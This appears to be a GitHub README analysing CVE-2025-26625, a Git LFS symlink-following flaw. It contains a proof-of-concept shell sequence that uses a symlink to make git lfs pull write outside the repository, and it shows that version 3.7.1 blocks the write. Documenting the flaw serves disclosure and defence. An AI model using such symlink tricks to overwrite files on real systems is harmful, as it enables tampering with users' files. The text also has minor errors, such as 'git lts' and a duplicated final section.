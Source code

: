 # CVE-2025-26625: Git LFS Vulnerability Analysis and Mitigation
<img width="401" height="737" alt="image" src="https://github.com/user-attachments/assets/078b3370-fe30-4ac2-849b-956354fe12f0" />

## Overview

**CVE-2025-26625** is a vulnerability affecting **Git LFS (Git Large File Storage)** versions **0.5.2 through 3.7.0**, where the commands  
`git lfs checkout` and `git lfs pull` fail to properly validate symbolic links before writing to files in the working tree.

Discovered and disclosed on **October 17, 2025**, this issue impacts all Git LFS installations released since version 0.5.2.  
It was documented in both the **GitHub Security Advisory** and the **National Vulnerability Database (NVD)**.

---

## Technical Details

The vulnerability arises from **improper link resolution before file access**, classified under **[CWE-59: Improper Link Resolution Before File Access ('Link Following')](https://cwe.mitre.org/data/definitions/59.html)**.

When Git LFS populates a repository’s working tree with large file objects, certain commands may inadvertently **follow existing symbolic or hard links**.  
If those links point **outside the repository’s working tree**, the LFS process may write data to unintended locations on the filesystem — potentially allowing a malicious repository to modify arbitrary files accessible to the user.

**Affected Commands:**
- `git lfs checkout`
- `git lfs pull`
---

```
# Machine A
mkdir lfs-remote-demo && cd lfs-remote-demo
git init
git lfs install
git lfs track "*.bin"
mkdir data
printf "you got pwned\n" > data/file.bin
git add .gitattributes data/file.bin
git commit -m "Add LFS file"
git push


# Machine B
git clone <the-remote-url> lfs-attack-demo
cd lfs-attack-demo

# At this point git has created "data" (a directory) and a pointer file or placeholder.
# Now remove the directory and replace it with a symlink to /tmp (or another safe path)
# yeah... the victim will need to create the symblink and pwn themselves...
rm -rf data
ln -s /tmp data

# Now run git lfs pull
git lfs pull

```

Upgraded `git lts` version 3.7.1: Nothing written to the `SHOULD_BE_EMPTY` directory

<img width="851" height="789" alt="image" src="https://github.com/user-attachments/assets/41fd309a-1610-44f5-97dd-fe7e8ec5e229" />


Upgraded `git lts` version 3.7.1: Nothing written to the `SHOULD_BE_EMPTY` directory

<img width="851" height="789" alt="image" src="https://github.com/user-attachments/assets/41fd309a-1610-44f5-97dd-fe7e8ec5e229" />
